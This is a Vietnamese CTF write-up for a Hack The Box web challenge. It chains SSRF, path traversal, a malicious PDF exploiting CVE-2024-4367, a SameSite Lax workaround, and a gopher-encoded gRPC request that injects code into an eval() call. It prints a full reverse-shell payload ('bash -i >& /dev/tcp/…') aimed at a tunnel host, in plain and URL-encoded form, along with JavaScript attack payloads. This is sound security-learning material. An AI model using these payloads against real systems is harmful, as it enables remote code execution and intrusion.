

**Payload**: `grpcurl -plaintext -import-path ./ -proto product.proto -d '{"input": {"price_formula":{"string_value":"__import__(\"os\").system(\"bash -c \\\"bash -i >& /dev/tcp/dlpqb-59-153-238-66.run.pinggy-free.link/43445 0>&1\\\"\")"}}}' 172.24.80.1:4444 product.ProductService/DebugService`

**Giải thích payload**:
- `-plaintext`: để không cần xác thực SSL/TLS
- `-import-path ./ -proto product.proto`: truyền cho cho grpcurl địa chỉ file cấu hình proto để nó hiểu cách giao tiếp
- `-d ...`: nội dung cần gửi, do có nhiều quote nên cần escape phù hợp hợp `\`. Các quote như sau: `'` != `"` != `\"` != `\\\"`.
- `ip:port`: IP address cần gửi tới. (Mình dùng docker local để mở một gRPC server giả)
- `product.ProductService/DebugService`: **\[Package.Service/Method\]**: method cần gọi

Bắt gói tin gRPC đầu tiên và `follow TCP Stream`.



Copy gói tin từ client tới server


> Dựng payload dùng `gopher` protocol
Cấu trúc gopher có dạng `gopher://<IP>:<Port>/_<URL_Encoded_Payload>`.

Ta sẽ format và url-encoded TCP stream vừa copy được sử dụng script [này](assets/grpc_test.py).

**Kết quả**: `gopher://127.0.0.1:50051/_%50%52%49%20%2a%20%48%54%54%50%2f%32%2e%30%0d%0a%0d%0a%53%4d%0d%0a%0d%0a%00%00%00%04%00%00%00%00%00%00%00%00%04%01%00%00%00%00%00%00%6f%01%04%00%00%00%01%83%86%45%9a%62%bb%0f%25%a4%4a%fa%ec%3c%96%91%3b%8b%67%73%10%ac%5f%2c%76%cd%b8%b6%77%31%0b%41%8c%0b%a2%5c%4d%2e%f0%17%0d%c6%9a%69%af%5f%8b%1d%75%d0%62%0d%26%3d%4c%4d%65%64%7a%95%9a%ca%c9%6d%94%31%dc%2b%be%bb%2a%4d%65%64%5a%63%b0%15%dc%0a%e0%40%02%74%65%86%4d%83%35%05%b1%1f%40%8e%9a%ca%c8%b0%c8%42%d6%95%8b%51%0f%21%aa%9b%83%9b%d9%ab%00%00%89%00%01%00%00%00%01%00%00%00%00%84%0a%81%01%0a%0d%70%72%69%63%65%5f%66%6f%72%6d%75%6c%61%12%70%0a%6e%5f%5f%69%6d%70%6f%72%74%5f%5f%28%22%6f%73%22%29%2e%73%79%73%74%65%6d%28%22%62%61%73%68%20%2d%63%20%5c%22%62%61%73%68%20%2d%69%20%3e%26%20%2f%64%65%76%2f%74%63%70%2f%64%6c%70%71%62%2d%35%39%2d%31%35%33%2d%32%33%38%2d%36%36%2e%72%75%6e%2e%70%69%6e%67%67%79%2d%66%72%65%65%2e%6c%69%6e%6b%2f%34%33%34%34%35%20%30%3e%26%31%5c%22%22%29%00%00%08%06%01%00%00%00%00%ef%b4%36%b9%6a%d8%57%5c%00%00%04%08%00%00%00%00%00%00%00%00%05%00%00%08%06%00%00%00%00%00%02%04%10%10%09%0e%07%07`

`127.0.0.1:50051` vì server gRPC đang lắng nghe ở đó.

#### 3. Tạo file pdf chứa mã độc

[PoC cho CVE-2024-4367 trên mạng](https://github.com/LOURC0D3/CVE-2024-4367-PoC/blob/main/CVE-2024-4367.py)

Sửa payload. Script ở [đây](assets/xss.py)

Có 3 payload: `payload` cho kết quả thất bại, `payload1` cho kết quả thành công, `payload2` chỉ để confirm là bot dính XSS. 2 payload đầu mình sẽ giải thích cụ thể ở dưới.

### B. Tiến hành khai thác

---
Tiến hành đăng ký một tài khoản và đăng nhập. Checkout một sản phẩm để order sau đó.

Không điền `product_id` ở query để được custom sản phẩm checkout với price là -1. Thỏa mãn điều kiện check là <= 0.




`user_id` nên để là 1 (admin) hoặc 2 (tài khoản vừa đăng kí) vì lúc sau checkout mà User không tồn tại thật trong database thì server sẽ trả lỗi.

---
Chạy [file](assets/xss.py) để tạo pdf chứa mã độc. Dựng một local server bằng python3: `python3 -m http.server 8000` và đào một tunnel (`ngrok tunnel http 8000`) từ internet về local server host bởi python để bot có thể truy cập vào file pdf của mình.

Gọi request tới `/checkout/success` với url: `/checkout/success?order_id=1&payment_id=a/../../../../admin/view-pdf?url=https://lowermost-fredericka-nonspinosely.ngrok-free.dev/poc.pdf?url`



**Giải thích payload**:

- `order_id=1` để không xảy ra lỗi khi server query database order với id tương ứng (nói chung cái này cần valid)
- `payment_id` không bị filter/validate/sanitize, được truyền và ghép thẳng vào url mà con bot sẽ truy cập `client.get(f"http://127.0.0.1:1337/static/invoices/invoice_{payment_id}.pdf")` ==> **SSRF**
- Khi được `payment_id` được ghép chuỗi, nó sẽ traverse ngược về các directory cha (**Path traversal**)
    1) `http://127.0.0.1:1337/static/invoices/invoice_{payment_id}.pdf`
    2) `http://127.0.0.1:1337/static/invoices/invoice_a/../../../../admin/view-pdf?url=https://lowermost-fredericka-nonspinosely.ngrok-free.dev/poc.pdf?url.pdf`
    3) `http://admin/view-pdf?url=https://lowermost-fredericka-nonspinosely.ngrok-free.dev/poc.pdf?url.pdf`

- Lúc này bot thực sự sẽ truy cập vào `/admin/view-pdf` với url chứa link dẫn tới file pdf bên ngoài. Link sẽ trả về một file **poc.pdf** có chứa mã độc của mình, khi này bot sử dụng browser có chứa lỗ hổng khi render ra file pdf sẽ vô tình chạy đoạn code JS ở trong.

- Trong file pdf, chứa đoạn code mình đã thử và thất bại

```javascript
const formData = new URLSearchParams();
formData.append('url', 'gopher://127.0.0.1:50051/_%50%52%49%20%2a2a....and more'); 
fetch('http://127.0.0.1:1337/admin/api-health', {
    method: 'POST',
    headers: {
        'Content-Type': 'application/x-www-form-urlencoded'
    },
    body: formData.toString(),
    credentials: 'include'
});
```

Đoạn code này sẽ gửi một POST request tới `/admin/api-health` với một địa chỉ url để curl tới.


Respond trả về status code 302 đưa về `/` vì trong request không có admin cookie. 

**Nguyên nhân**: `default SameSite: Lax`. Đây là một flag cho cookie, tùy vào giá trị mà nó sẽ quyết định khi nào cookie sẽ được browser tự động đính kèm khi gửi request, đảm bảo an toàn và chống Cross-site request forgery (CSRF). Với `Lax`, browser chỉ đính kèm cookie khi gửi GET request cross-site. Đây là một flag mặc định của các browser hiện đại khi cookie không được cấu hình cụ thể.

Khi bot nhận được pdf từ Python requests gửi về thì context mà bot đọc pdf lúc này là `resource://pdf.js`, khác origin với `http://127.0.0.1:1337`. Nên gửi POST request cross-site sẽ không được đính kèm cookie.


Read more [here](https://www.chromium.org/updates/same-site/faq/)


Read more [here](https://owasp.org/www-community/SameSite)

Trong phần cấu hình browser của bot, không cài đặt một cái gì ngoài đường dẫn geckodrive và firefox. Đây là lý do tại sao khi payload ở trên gửi POST request không có admin cookie và bị server redirect về `/`

Tuy nhiên lại có một cơ chế [`""Lax + POST mitigation"`](https://www.chromium.org/updates/same-site/faq/)



**Giải thích**: nếu như cookie vừa được tạo, trong 2 phút gần nhất, việc chuyển trang với `top-level-navigation` (thay đổi thanh URL) và `POST request` thì cookie sẽ được đính kèm theo.

Và trong payload thứ 2 mình sử dụng cách này để gửi POST request.

```javascript
if (!window.pwned) {
    window.pwned = true;
    let form = document.createElement('form');
    form.action = 'http://127.0.0.1:1337/admin/api-health';
    form.method = 'POST';
    let input = document.createElement('input');
    input.type = 'hidden';
    input.name = 'url';
    input.value = 'gopher://127.0.0.1:50051/_%50%52%49%22......... and more';
    form.appendChild(input);
    document.body.appendChild(form);
    form.submit();
}
```

Đối với việc tạo form và submit một form bằng JS có hiệu ứng y như `top-level-navigation`:
- Trình duyệt gửi request
- Sau đó **load response** -> thay trang hiện tại
- Giống hệt user bấm submit

Còn trong trường hợp trên hay với các cách gọi request ngầm: `fetch`, `XMLHttpRequest`:
- Request được gửi ngầm (`AJAX`)
- Trang không reload
- Không thay đổi URL


---

Khi này server sẽ dùng **curl** để gửi bytes payload với giao thức gopher tới gRPC server. Gopher cho phép truyền và gửi các gói tin TCP (TCP packet) hoặc RAW Bytes (dữ liệu thô). Còn gRPC server thì không quan tâm người gửi là trình duyệt, một gRPC client chuẩn, hay một giao thức ất ơ như Gopher. Miễn là dữ liệu đầu vào (raw bytes) được đẩy vào socket đúng chuẩn HTTP/2 để nó hiểu thì nó sẽ thực thi hàm được gọi.

Chuỗi bytes được cổng TCP của gRPC server giải mã và nhận được dữ liệu đầu vào như [trên](#target)
```python
input_dict = {k: v.string_value for k, v in request.input.items()}
```
Khi được duyệt, `input_dict` chứa `{"price_formula":"malicious code"}`

Khi được update, vì `price_formula` và `malicious code` đều không phải là `dict` mà cũng không ở trong `dict` nên được set `destination[key] = value` hay `ProductService[price_formula] = malicious code`.

---
Lúc này `price_formula` đã có giá trị. Gọi tới `/admin/product-stream` để bắt hàm `GetNewProducts` chạy, kích hoạt hàm `eval(price_formula)` thực thi code.


Cơ chế SSRF tương tự như trên.

Trước khi gửi request, dựng một listener:



Confirm flag từ HTB



> Flag: ***HTB{ol4_t4_ch41n5_ol4_t4_ch41n5_l4mp0un_t4_d15m4nd14_4l1_day}***

## VI. Post-analysis discussion
- Tại end point `/checkout` không thể khai thác các query `title`, `price`, `email`, `user_id` làm payload để inject vào pdf vì:
    1) `title` dù được lưu vào value `order.title` nhưng khi in invoice, nó luôn query product_id = 1 để lấy title (luôn fix là **External Product**)
    2) `price` không làm gì được vì luôn bị ép thành **int**
    3) `user_id` thì phải valid vì trong hàm `generate_invoice`, server tìm `user_id` trong database, nếu không có thì sẽ trả về lỗi
    4) `email` là yếu tố duy nhất được truyền trực tiếp vào pdf. Tuy nhiên trong phần tạo file pdf thì hàm tạo file pdf đã luôn cố định **font**, mà CVE-2024-4367 có lỗi liên quan tới render font chứa mã JS ở trong. => Không khai thác được

> Đây là lý do vì sao cần host file pdf từ Internet

- **Ngrok có cơ chế**: lần đầu tiên truy cập vào link được tạo bởi ngrok sẽ luôn yêu cầu user interaction để đảm bảo rằng người dùng chủ ý truy cập vào link. (Nguyên nhân do nhiều kẻ xấu lợi dụng ngrok để host một server chứa mã độc rồi trick user truy cập trang)

    Khi bot truy cập `/admin/view-pdf` và được trả về file pdf, dù bot không có tương tác nào tuy nhiên vẫn nhận được file pdf và code trong pdf được thực thi bởi vì bot (hay Firefox broswer) không thực sự là người truy cập vào link mà là **Python requests**.

    ```python
    response = requests.get(pdf_url)
    response.raise_for_status()
    
    if response.headers["Content-Type"] != "application/pdf":
        return render_template("error.html", title="Error", error="URL does not point to a PDF file"), 400
    
    pdf_data = BytesIO(response.content)
    return send_file(pdf_data, mimetype="application/pdf", as_attachment=False, download_name="document.pdf")
    ```
    Python (server) là người gửi request và nhận được file và trả về cho bot (Firefox broswer) dưới dạng Bytes stream.

    Ngrok chỉ detect và yêu cầu user interaction với header `User-Agent` là các browser như Mozilla, FireFox, Edge, Chrome... vì nó mô phỏng hành vi của người dùng thực sự. Còn khi thấy request từ các tool như curl hay requests của Python thì sẽ cho qua.

- **Nguyên nhân có nhiều POST request được gửi tới `/admin/api-health`**: Do khi tải file pdf, trang sẽ không được tải toàn bộ trong một lần mà tải thành từng cụm. Mỗi lần render chữ sử dụng font (cái mà có lỗ hổng, attack inject mã độc JS vào) thì code lại chạy một lần. Vì vậy, khi render xong pdf sẽ có nhiều request được gọi.

Check ảnh mình debug 2 lần code js (Dùng phiên bản firefox 125.0.1 của bot) được chạy với cùng một file pdf (và còn nhiều hơn nhưng mình không chụp)


- **Tại sao là web ctf challenge mà lại dùng Wireshark như forensics**: Vì để giao tiếp và yêu cầu gRPC server chạy một hàm, ta cần gửi request dưới dạng bytes, đồng thời phải tuân thủ các format và frames của `HTTP/2` để gRPC server có thể hiểu. Việc tự craft một request như vậy rất mất thời gian. Mình sẽ expose server gRPC của challenge ra, dùng tool curl chuyên dành cho gRPC để gửi request tới. Khi này request chắc chắn sẽ chuẩn format, mình dùng Wireshark để bắt request và lưu các packet (gói tin) ở dạng raw bytes.